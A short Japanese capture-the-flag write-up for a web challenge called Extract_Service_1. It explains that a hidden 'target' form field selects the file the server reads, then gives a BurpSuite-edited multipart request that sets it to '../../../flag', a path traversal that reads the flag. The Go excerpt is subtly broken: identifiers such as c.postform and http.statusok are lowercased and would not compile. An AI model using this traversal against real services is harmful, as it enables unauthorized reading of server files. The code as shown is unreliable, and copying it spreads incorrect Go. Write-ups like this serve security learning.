

# Extract_Service_1 (Web)

## 問題概要
ファイルをアップロードするサービスが与えあられる



また、FLAGがルート直下に配置されている

`Dockerfile`
```Dockerfile
RUN echo "FAKE{FAKE_FLAG}" > /flag

RUN chmod 664 /flag
```

## 解法
コードを読むとブラウザからは見えないが`target`というフィールドを見てそのファイルを読み込んでいることが分かる

`main.go`
```go
		extracttarget := c.postform("target")
		if extracttarget == "" {
			c.html(http.statusok, "index.html", gin.h{
				"result": "error : target is required",
			})
			return
		}
```

よって、BurpSuiteを使って以下のように書き換えたリクエストを送信するとフラグが得られる
```
------WebKitFormBoundary5yswuPyLmiL2tftP
Content-Disposition: form-data; name="target"

../../../flag
------WebKitFormBoundary5yswuPyLmiL2tftP--
```

